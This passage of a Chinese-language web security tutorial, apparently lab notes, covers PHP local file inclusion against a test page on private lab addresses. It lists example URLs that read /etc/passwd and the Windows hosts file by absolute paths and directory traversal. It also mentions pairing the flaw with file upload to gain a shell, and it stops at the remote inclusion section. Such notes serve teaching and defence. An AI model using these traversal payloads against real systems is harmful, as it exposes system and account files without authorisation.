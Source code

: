 **10.52(Windows)创建文件包含页面include.php**

![](./../../img/file_include/2022-05-28-10-27-09.png)
![](./../../img/file_include/2022-05-28-09-54-11.png)

## 本地文件包含

**利用**

- 读取系统中其他敏感文件的内容

<p>  


- 配合文件上传漏洞getshell

**前提条件**

- php配置文件php.ini中参数allow_url_fopen = On (默认配置就是On的状态)

**文件读取**

- Linux绝对路径读取文件

<p>  


-  http://192.168.10.77/include.php?file=/etc/passwd
   ![](./../../img/file_include/2022-05-28-10-41-53.png)

-  Linux相对路径读取文件

<p>  


-  http://192.168.10.77/include.php?file=../../../../../../../../../../etc/passwd
   ![](./../../img/file_include/2022-05-28-10-43-04.png)

- Windows绝对路径读取文件

<p>  


-  http://192.168.10.52/include.php?file=C:\Windows\System32\drivers\etc\hosts
   ![](./../../img/file_include/2022-05-28-10-54-46.png)

-  Windows相对路径读取文件，Windows路径从盘符开始，无法通过相对路径切换盘符，这里以当前路径.\演示

<p>  


-   http://192.168.10.52/include.php?file=C:\Windows\System32\drivers\etc\.\.\.\.\.\.\hosts

    ![](./../../img/file_include/2022-05-28-11-04-15.png)


## 远程文件包含

**利用**
